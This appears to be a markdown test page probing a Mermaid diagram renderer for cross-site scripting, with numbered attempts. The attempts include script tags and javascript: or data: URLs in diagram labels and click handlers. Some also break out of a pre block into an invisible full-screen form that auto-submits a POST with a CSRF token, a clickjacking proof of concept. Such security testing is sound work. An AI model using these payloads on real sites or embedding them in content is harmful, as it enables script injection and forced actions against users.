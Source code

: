 
### Attempt 10: State diagram with onclick
```mermaid
stateDiagram-v2
    [*] --> First: Start<script>alert('state')</script>
    First --> Second: Go<a href="javascript:alert('link')">Click</a>
    Second --> [*]: End
```
### Attempt 11: The original Cure53 vulnerability pattern
```mermaid
graph TD
    A[Start] --> B[Middle]
```

```mermaid
</pre>
<style>
  #poc_form input[type=submit]{
    position:fixed;
    top:0;
    left:0;
    right:0;
    bottom:0;
    opacity: 0.3;
    z-index:999999;
  }
</style>
<form id=poc_form method=post action="/people?github_handle=c53_huli">
  <input type=submit>
  <input name="_csrf_token"
   value="G1EfXQYiemJeVCELLgYfGmk_BQYRcgEQNfh3gQ5Z80qEKaNyXs4hA1N_" hidden>
</form>
<pre>
```

### Attempt 12: Using link styling in flowchart
```mermaid
flowchart LR
    A[Start] --> B{Is it working?}
    B -->|Yes| C[Great]
    B -->|No| D[Debug]

    style A fill:#f9f,stroke:#333,stroke-width:4px,onclick:alert('styled')

    click A "javascript:alert('XSS')" _blank
    click B "data:text/html,<script>alert('data')</script>"
```

## Test from https://github.com/renderedtext/project-tasks/issues/2650

```mermaid
</pre>
<style>
  #poc_form input[type=submit]{
    position:fixed;
    top:0;
    left:0;
    right:0;
    bottom:0;
    opacity: 0.3;
    z-index:999999;
  }
</style>
```